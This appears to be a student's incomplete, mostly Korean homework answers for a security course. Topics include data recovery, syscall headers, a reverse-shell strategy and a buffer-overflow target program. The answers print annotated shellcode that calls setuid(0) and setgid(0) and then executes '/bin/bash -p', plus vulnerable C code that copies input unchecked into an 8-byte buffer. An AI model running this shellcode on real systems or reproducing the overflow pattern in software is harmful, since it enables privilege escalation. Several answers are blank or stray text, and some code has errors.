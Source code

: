 


# Problem 1

ubunut의 튜토리얼(https://help.ubuntu.com/community/DataRecovery)을 기초로 해서 `foremost`라는 tool을 사용했다.

# Problem 2

(a)

`/usr/src/linux-headers-4.9.0-3-686/arch/x86/include/generated/uapi/asm/unistd_32.h`

`/usr/src/linux-headers-4.9.0-3-686/arch/x86/include/generated/uapi/asm/unistd_64.h`

(b) `/usr/src/linux-headers-4.9.0-3-common/include/uapi/asm-generic/unistd.h` 

(c) `repe`는 string instruction에 붙어서 repeat until equal을 수행한다. 따라서 ZF플래그가 0인 동안 계속 수행된다. 그래서 `repe scasb`는 find non-AL byte starting at ES:[EDI]가 된다. EAX만큼 수행..

(d)

(g) jjj

```asm
 560:   31 c0                   xor    %eax,%eax         # clear eax
 562:   31 db                   xor    %ebx,%ebx         # clear ebx
 564:   b0 17                   mov    $0x17,%al         # 0x17 = setuid
 566:   cd 80                   int    $0x80             # setuid(0)
 568:   31 c0                   xor    %eax,%eax         # clear eax
 56a:   31 db                   xor    %ebx,%ebx         # clear ebx
 56c:   b0 2e                   mov    $0x2e,%al         # 0x2e = setgid
 56e:   cd 80                   int    $0x80             # setgid(0)
 570:   31 c0                   xor    %eax,%eax         # clear eax
 572:   b0 0b                   mov    $0xb,%al          # 0x0b = execve
 574:   31 d2                   xor    %edx,%edx         # clear edx
 576:   52                      push   %edx              # '\0'
 577:   66 68 2d 70             pushw  $0x702d           # "-p"
 57b:   89 e1                   mov    %esp,%ecx         # ecx = "-p"
 57d:   52                      push   %edx              # '\0'
 57e:   6a 68                   push   $0x68             #
 580:   68 2f 62 61 73          push   $0x7361622f       #
 585:   68 2f 62 69 6e          push   $0x6e69622f       # "/bin/bash"
 58a:   89 e3                   mov    %esp,%ebx         # ebx = "/bin/bash"
 58c:   52                      push   %edx              # NULL}
 58d:   51                      push   %ecx              # "-p",
 58e:   53                      push   %ebx              # {"/bin/bash",
 58f:   89 e1                   mov    %esp,%ecx         # ecx = {"/bin/bash", "-p", NULL}
 591:   cd 80                   int    $0x80             # execve()
```

64-bit ABI

To make a system call in 64-bit Linux, place the system call number in rax, then its arguments, in order, in rdi, rsi, rdx, r10, r8, and r9, then invoke syscall.

# Problem 3

(a) inbound는 웹서버로 들어가는 통신을 막는다. 따라서 웹서버가 미리 만들어놓은 서버에 접근하게끔 하는 reverse shell방식을 사용해야 한다.

(b)

```

```

(c)

```
```

# Problem 4



# Problem 5

(a)

(b) `setlev`의 실행권한으로 flag를 읽어들이는 명령어를 수행해야 한다.

(c)

```c
char* something(char* buf, char* b){
    int i = 0;
    while(1){
        if(b[i] == '\0') break;
        buf[i] = b[i];
        i++;
    }
    buf[i] = '\0';
    return buf;
}
int parseAndSet(char* a, char* b){
    char buf[8];
    if(strcmp(b, "help")==0){
        printf("%s [opts] --level=", a);
    }
    if(strcmp(b, "level=", 6)==0){
        something(buf, b+6);
        printf("", b);
    }
}
int main(int argc, char* argv[]){
    if(argc<=1) return -1;
    if(strncmp(argv[1], "--", 2)==0)
        parseAndSet(argv[0], argv[1]+2);
    return 0;
}
```
